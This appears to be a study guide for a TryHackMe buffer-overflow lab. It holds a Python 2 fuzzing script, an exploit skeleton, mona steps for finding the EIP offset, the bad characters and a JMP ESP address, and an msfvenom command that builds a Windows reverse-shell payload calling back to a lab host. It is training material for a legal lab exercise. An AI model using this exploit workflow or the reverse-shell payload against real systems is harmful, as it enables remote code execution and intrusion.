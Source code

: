 # Buffer Overflow Guide 2

Working off the buffer overflow prep room: https://tryhackme.com/room/bufferoverflowprep

## Basic premise

Finding the offset of the EIP register when we overflow. We will overflow this with an instruction that will jump to the stack pointer (by finding other instances of JMP ESP in the code or referenced libraries, and then setting EIP to one of these addresses). At the stack pointer, past NOP padding, will be our payload code.

As part of this premise, we will work out which characters get malformed in the overwriting process, so called bad chars, and then ensure our payload and the address of the JMP ESP we try to find do not contain these characters.

## Fuzzing Script

python2

```python
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## Exploit script

Python 2 again. Fill this in as you go, normally using payload with patterns and/or bad data tests.

```python
import socket

ip = "10.10.198.104"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

## General steps

Open target in immunity (with mona installed - see BUFFER-OVERFLOW-1.md for instructions), and set running.
For the first challenge, when run, to overflow you send OVERFLOW1 <string> after connecting.

1. Find the offset length. This can be done by fuzzing with longer and longer strings: the room does this with a script that connects and sends a increasing string, which gives the approx fail point (replicated above).

Once an idea is gained, generate the trace string: find pattern_create.rb from the metasploit framework (`find / -name pattern_create.rb 2>/dev/null`), and run it like so (using path from THM attackbox): `/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l 2400` (assuming a fail length of somewhere around 2400). Generally take approx (say last from fuzz script) and add 400.

When this fails, in immunity, run `!mona findmsp -distance 2400` matching the length there. This will return the offset in the log ("EIP contains normal pattern : blah (offset <here>)")

2. Work out bad characters. Run `!mona bytearray -b "\x00"` to generate a big character string. This will create a bin file and a txt file, the text file containing a set of char options. Send this payload (resetting the exe in immunity). 

Take the value out of the ESP register when it crashes, and then add to a mona command like so: `!mona compare -f c:\moda\oscp\bytearray.bin -a 0186FA30`, with the path to generated bin and the provided address in there. This will run and either return 'unmodified' in red, or a set of 'possibly bad characters'.

Repeat step 2, adding those bad characters to \x00 above, and do so until unmodified is returned.

3. Find a jump esp command. This can be done in mona passing in the found bad characters, e.g. `!mona jmp -r esp -cpb "\x00\x07\x08\x2e\x2f\xa0\xa1"` Pick an address from the list.

Once you have an address, reverse and hexify it. For example, 625011AF becomes \xAF\x11\x50\x62

4. Generate some shell code with msfvenom, passing in bad chars and the bind port: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.206.220 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f py`

5. Finally, deliver the payload like so:

offset from step 1, retn being step 3, payload from step 5. The padding is just to allow the unpacking of the msfcommand.

```
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xAF\x11\x50\x62"
padding = "\x90" * 16
payload = buf
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
```
